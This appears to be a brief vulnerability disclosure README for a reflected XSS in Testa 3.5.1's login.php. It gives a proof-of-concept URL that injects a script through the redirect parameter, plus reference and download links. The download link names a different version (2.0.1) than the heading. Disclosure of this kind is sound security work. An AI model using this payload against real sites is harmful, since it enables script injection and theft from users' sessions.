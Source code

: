 ## Testa 3.5.1 (Xss)
```diff

@@Testa 3.5.1 Online Test Management System (Cross Site Scripting)@@

+ Version: 3.5.1
- Tested on Linux/Windows
# POC (Piye om carane)
! https://localhost/login.php?redirect=%22%3E%3Cscript%3Ealert(%22evil.com%22)%3C/script%3E
```

## Software & Reference
###### [https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)
###### [https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
###### [https://www.apachefriends.org/download.html](https://www.apachefriends.org/download.html)

